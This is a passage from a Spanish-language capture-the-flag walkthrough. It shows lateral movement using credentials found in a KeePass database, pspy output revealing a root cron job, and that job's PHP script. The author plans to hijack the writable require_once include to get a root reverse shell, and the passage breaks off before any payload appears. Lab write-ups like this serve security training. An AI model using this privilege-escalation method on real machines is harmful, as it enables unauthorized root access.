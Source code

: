 
```bash
$keepass2 dataset.kdbx
```


- Se nos despliega la interfaz de keepass y podremos ver la credencial del usuario "sysadmin", así que pivotamos a dicho usuario:

```bash
$su sysadmin
```

- Ya como el usuario "sysadmin" podremos leer la primera flag.


# abuse require_once PHP file:

- Escaneamos el sistema en busca de procesos que se ejecuten de forma automática con [pspy](https://github.com/DominicBreuker/pspy/releases) 


```js
2023/05/24 18:12:21 CMD: UID=0     PID=1      | /sbin/init maybe-ubiquity 
2023/05/24 18:13:01 CMD: UID=0     PID=1865   | /bin/sh -c /usr/bin/php /home/sysadmin/scripts/script.php 
2023/05/24 18:13:01 CMD: UID=0     PID=1864   | /usr/sbin/CRON -f 
2023/05/24 18:13:01 CMD: UID=0     PID=1866   | /usr/bin/php /home/sysadmin/scripts/script.php 
```

- Como podemos observar, cada cierto tiempo se está ejecutando como el usuario "root" el archivo `"/home/sysadmin/scripts/script.php"` así que lo cateamos para entender qué es lo que hace:

```bash
$cat /home/sysadmin/scripts/script.php
```

```php
<?php

//Backup of scripts sysadmin folder
require_once('lib/backup.inc.php');
zipData('/home/sysadmin/scripts', '/var/backups/backup.zip');
echo 'Successful', PHP_EOL;

//Files scheduled removal
$dir = "/var/www/html/cloud/images";
if(file_exists($dir)){
    $di = new RecursiveDirectoryIterator($dir, FilesystemIterator::SKIP_DOTS);
    $ri = new RecursiveIteratorIterator($di, RecursiveIteratorIterator::CHILD_FIRST);
    foreach ( $ri as $file ) {
        $file->isDir() ?  rmdir($file) : unlink($file);
    }
}
?>
```

- Si analizamos el código php, concluimos que es una script que hace backups de la carpeta "scripts" y lo guarda en el directorio "/var/backups/backup.zip", sin embargo lo realmente interesante es al principio del código, como podemos apreciar se está ejecutando la función `"require_once('lib/backup.inc.php')"`, esto lo que hace es ejecutar otro archivo php desde la script inicial, y si revisamos bien, dicho archivo "backup.inc.php" se encuentra en el directorio "sysadmin" por lo que podremos fácilmente borrarlo, crear uno nuevo con el mismo nombre e inyectar código php que nos establezca una reverse shell; como esto se ejecutará como root recibiremos una shell de root:
